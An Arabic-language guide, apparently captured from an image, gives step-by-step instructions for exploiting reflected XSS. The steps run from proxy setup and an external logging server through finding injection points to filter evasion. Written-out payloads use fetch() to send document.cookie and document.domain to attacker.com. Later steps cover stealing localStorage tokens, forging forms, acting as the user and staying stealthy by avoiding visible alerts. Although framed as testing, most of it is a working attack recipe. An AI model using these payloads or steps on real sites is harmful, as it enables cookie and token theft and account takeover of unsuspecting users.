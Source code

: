 
## الخطوات العملية لاختبار ثغرة XSS المنعكس
1. **إعداد البيئة**:
   - استخدم متصفحًا مع أداة وكيل (مثل **Burp Suite** أو **OWASP ZAP**) لمراقبة طلبات واستجابات HTTP.
   - أعد خادمًا خارجيًا (مثل خادم Python بسيط أو خدمة مثل `ngrok`) لتسجيل البيانات المرسلة من الحقن.
   - افتح أدوات المطورين في المتصفح (F12) لمراقبة وحدة التحكم (Console)، الشبكة (Network)، وتغييرات DOM.
   - تأكد من أن لديك روابط أو نماذج لاختبارها (مثل روابط تحتوي على معلمات URL أو نماذج إدخال).

2. **تحديد نقاط الإدخال العرضة**:
   - ابحث عن نقاط إدخال تُرسل بيانات إلى الخادم وتُعرض في الاستجابة، مثل:
     - معلمات URL (مثل `https://example.com/?q=test` أو `?id=123`).
     - حقول النماذج (مثل حقول البحث، التعليقات، أو الرسائل).
     - رؤوس HTTP (مثل `User-Agent` أو `Referer`) إذا عُرضت في الصفحة.
   - افحص استجابات الموقع (عبر Burp Suite أو عرض المصدر) لتحديد أين تُعرض الإدخالات (مثل داخل `<div>`، `<input>`، أو JavaScript).
   - تحقق من سياق العرض (مثل داخل HTML، سمة، أو JavaScript) لتصميم الحقنة المناسبة.

3. **إدخال الحقن**:
   - أدخل شيفرة JavaScript أو HTML ضارة في نقطة الإدخال العرضة.
   - صمم الحقنة لتنفيذ شيفرة ضارة، مثل:
     - `<script>alert('XSS')</script>`
     - `<img src=x onload="fetch('http://attacker.com/log?c='+document.cookie)">`
     - `javascript:alert('XSS')`
   - جرب الحقن في سياقات مختلفة:
     - معلمة URL: `https://example.com/search?q=<script>alert('XSS')</script>`
     - حقل نموذج: أدخل `<img src=x onload="fetch('http://attacker.com/log?c='+document.cookie)">` في حقل البحث.
     - رأس HTTP: استخدم Burp Suite لتعديل `User-Agent` إلى `<script>alert('XSS')</script>` إذا عُرض.

4. **مراقبة الاستجابات**:
   - تحقق من تنفيذ الحقنة عبر:
     - **أدوات المطورين**: راقب وحدة التحكم (Console) للأخطاء أو التنبيهات، والشبكة (Network) للطلبات الصادرة.
     - **خادم خارجي**: تحقق من سجلات الخادم لتأكيد استلام البيانات (مثل ملفات تعريف الارتباط).
     - **تغييرات DOM**: تحقق من تعديل الصفحة أو إعادة التوجيه.
   - **نجاح (True)**: الشيفرة تُنفذ (مثل ظهور تنبيه، إرسال بيانات إلى الخادم، أو إعادة توجيه).
   - **فشل (False)**: لا يتم التنفيذ بسبب فلاتر، CSP، أو تنظيف الإدخال.
   - سجل النتائج لتحديد الحقن الناجحة.

5. **تجربة أنواع حقن مختلفة**:
   - إذا فشلت الحقنة، جرب أنواعًا أخرى:
     - استخدام وسوم مختلفة: `<script>`، `<img>`، `<iframe>`، `<a>`، أو `<div>`.
     - استهداف أحداث مختلفة: `onload`، `onerror`، `onclick`، أو `onmouseover`.
     - تجاوز الفلاتر: جرب صيغ بديلة مثل `<SCRIPT>` (حروف كبيرة)، تعتيم الشيفرة بـ Base64، أو استخدام أحرف خاصة.
   - اختبر نقاط إدخال متعددة (مثل معلمات URL أخرى، حقول نماذج مختلفة، أو رؤوس HTTP).
   - جرب حقنًا تستهدف سياقات مختلفة (مثل حقن داخل سمات، JavaScript، أو CSS).

6. **تأكيد السياق وتصعيد الاستغلال (اختياري)**:
   - استخدم حقن تكشف سياق التنفيذ (مثل `<img src=x onload="fetch('http://attacker.com/log?d='+document.domain)">`).
   - إذا نجحت الحقن، جرب هجمات متقدمة مثل:
     - سرقة بيانات حساسة (مثل `localStorage.getItem('token')`).
     - التلاعب بالصفحة (مثل إنشاء نموذج مزيف).
     - تنفيذ إجراءات المستخدم (مثل إرسال طلبات POST).
   - حافظ على التخفي بتجنب التنبيهات البصرية إذا كنت تستهدف سياقات حساسة.

---